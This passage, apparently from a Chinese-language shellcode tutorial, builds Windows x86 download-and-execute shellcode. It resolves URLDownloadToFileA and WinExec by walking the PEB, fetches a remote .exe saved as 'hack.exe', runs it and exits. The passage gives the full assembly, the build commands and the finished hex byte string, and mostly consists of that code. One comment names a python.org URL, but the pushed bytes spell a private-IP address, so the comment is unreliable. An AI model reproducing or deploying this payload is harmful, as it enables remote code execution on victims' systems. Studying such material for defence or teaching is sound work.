    push 0x6C6E776F         ; lnwo
    push 0x444c5255         ; DLRU
    push esp    		; push pointer to string to stack for 'URLDownloadToFileA'
    push dword [ebp-0x24]   ; push base address of urlmon.dll to stack
    mov eax, [ebp-0x1C]     ; PTR to GetProcAddress to EAX
    call eax                ; GetProcAddress
    ;   EAX = WSAStartup Address
    mov [ebp-0x28], eax     ; save Address of urlmon.URLDownloadToFileA
    ```

  * 使用该函数进行[下载文件](https://www.exploit-db.com/shellcodes/13533)
    ```asm
    ;URLDownloadToFileA(NULL, URL, save as, 0, NULL)
    download:
    pop eax
    xor ecx, ecx
    push ecx
    ; URL: https://www.python.org/ftp/python/3.8.3/python-3.8.3.exe
    push 0x6578652E         ; exe.
    push 0x74646573         ; tdes
    push 0x6F6F672F         ; oog/
    push 0x33312E36         ; 31.6
    push 0x352E3836         ; 5.86
    push 0x312E3239         ; 1.29
    push 0x312F2F3A         ; 1//:
    push 0x70747468         ; ptth
    push esp
    pop ecx                 ; save the URL string
    xor ebx, ebx
    push ebx
    ; save as hack.exe
    push 0x6578652E         ; exe.
    push 0x6B636168         ; kcah
    push esp
    pop ebx                 ; save the downloaded filename string
    xor edx, edx
    push edx
    push edx
    push ebx
    push ecx
    push edx
    mov eax, [ebp-0x28]     ; PTR to URLDownloadToFileA to EAX
    call eax
    pop ecx
    add esp, 44
    xor edx, edx
    cmp eax, edx
    push ecx
    jnz download            ; if it fails to download , retry contineusly
    pop edx
    ```
  * 找到`WinExec`函数的入口地址，并调用该函数运行下载的文件，最后退出程序
    ```asm
    Create string 'WinExec\x00' on the stack and save its address to the stack-frame
    mov edx, 0x63657878     \
    shr edx, 8              ; Shifts edx register to the right 8 bits
    push edx                ; "\x00,cex"
    push 0x456E6957         ; EniW : 456E6957
    mov [ebp+0x18], esp     ; save address of string 'WinExec\x00' to the stack-frame
    call findFunctionAddr   ; After Return EAX will = &WinExec
    
    xor ecx, ecx          ; clear eax register
    push ecx              ; string terminator 0x00 for "hack.exe" string
    push 0x6578652e       ; exe. : 6578652e
    push 0x6B636168       ; kcah : 6B636168
    mov ebx, esp          ; save pointer to "hack.exe" string in eax
    inc ecx               ; uCmdShow SW_SHOWNORMAL = 0x00000001
    push ecx              ; uCmdShow  - push 0x1 to stack # 2nd argument
    push ebx              ; lpcmdLine - push string address stack # 1st argument
    call eax              ; Call the WinExec Function
    
    ; Create string 'ExitProcess\x00' on the stack and save its address to the stack-frame
     xor ecx, ecx          ; clear eax register
     mov ecx, 0x73736501     ; 73736501 = "sse",0x01 // "ExitProcess",0x0000 string
     shr ecx, 8              ; ecx = "ess",0x00 // shr shifts the register right 8 bits
     push ecx                ;  sse : 00737365
     push 0x636F7250         ; corP : 636F7250
     push 0x74697845         ; tixE : 74697845
     mov [ebp+0x18], esp     ; save address of string 'ExitProcess\x00' to stack-frame
     call findFunctionAddr   ; After Return EAX will = &ExitProcess
    
    ; Call ExitProcess(ExitCode)
     xor edx, edx
     push edx                ; ExitCode = 0
     call eax                ; ExitProcess(ExitCode)
    ```

  * 将该反汇编文件通过`nasm`工具进行编译并用`objdump`工具变为可执行代码
    ```bash
    nasm -f win32 test.asm -o test.o
    for i in $(objdump -D test.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
    ```
  * 得到的代码如下
    ```shell
    \x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xfc\xc3\x31\xc0\x66\xb8\x73\x73\x50\x68\x64\x64\x72\x65\x68\x72\x6f\x63\x41\x68\x47\x65\x74\x50\x89\x65\x18\xe8\xb0\xff\xff\xff\x89\x45\xe4\x31\xd2\x52\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\xff\x75\xfc\x8b\x45\xe4\xff\xd0\x89\x45\xe0\x31\xc0\x66\xb8\x6f\x6e\x50\x68\x75\x72\x6c\x6d\x54\x8b\x5d\xe0\xff\xd3\x89\x45\xdc\x31\xd2\x66\xba\x65\x41\x52\x68\x6f\x46\x69\x6c\x68\x6f\x61\x64\x54\x68\x6f\x77\x6e\x6c\x68\x55\x52\x4c\x44\x54\xff\x75\xdc\x8b\x45\xe4\xff\xd0\x89\x45\xd8\x58\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x73\x65\x64\x74\x68\x2f\x67\x6f\x6f\x68\x36\x2e\x31\x33\x68\x36\x38\x2e\x35\x68\x39\x32\x2e\x31\x68\x3a\x2f\x2f\x31\x68\x68\x74\x74\x70\x54\x59\x31\xdb\x53\x68\x2e\x65\x78\x65\x68\x68\x61\x63\x6b\x54\x5b\x31\xd2\x52\x52\x53\x51\x52\x8b\x45\xd8\xff\xd0\x59\x83\xc4\x2c\x31\xd2\x39\xd0\x51\x75\xac\x5a\xba\x78\x78\x65\x63\xc1\xea\x08\x52\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xe8\xfe\xff\xff\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x68\x61\x63\x6b\x89\xe3\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\xb7\xfe\xff\xff\x31\xd2\x52\xff\xd0
    ```
  * 代码可成功执行！  
  * 解读这段代码：
    * 利用一个call来使得系统将EIP入栈，并马上pop出来，从而解决了自身代码定位问题，而且由于shellcode编排得巧妙，得到的地址正是指向“数据区”的开头。
    * 利用地址fs:[0x30]得到PEB头部的地址。然后读取PEB中的PLDR_DATA指针，再找LDR_DATA结构中的 InInitializationOrderModuleList的Flink，从而得到指向kernel32.dll的LDR_MODULE结构的地址。
    * 通过读取LDR_MODULE结构中的BaseAddress，从而得到了kernel32.dll在进程空间中的基址。
    * 通过读取kernel32.dll在进程空间中的映像的PE文件结构，找到其输出表，通过循环比对，在AddressOfNames数组中找到指向GetProcAddress这个函数名的指针位置，定位其索引号位置。 
    * 通过索引查AddressOfFunctions数组，找到GetProcAddress的函数入口偏移量，加上kernel32.dll的基址，得到了GetProcAddress函数的确切入口。 
    * 通过调用GetProcAddress函数，配合kernel32.dll的基址这个句柄，找到Winexec、ExitProcess、LoadLibraryA这几个由kernel32.dll导出的函数的入口点，并将之依次保存到“数据区”开头
    * 通过刚刚得到的LoadLibraryA函数入口，加载urlmon.dll，用GetProcAddress得到重要的函数URLDownloadToFileA的入口点，同样保存备用。 
    * 调用URLDownloadToFileA，下载文件到本机，并调用Winexec运行。 
    * 完成以上所有任务，调用ExitProcess，退出进程。
  * 以上代码解读分析参考 http://cmwlwx.blog.sohu.com/72527109.html 

### 参考资料  
* URLDownloadToFile function：https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/ms775123(v=vs.85)  
* Exploit Database Shellcodes： https://www.exploit-db.com/shellcodes
* Shellcode原来是这样子的 ：http://cmwlwx.blog.sohu.com/72527109.html 
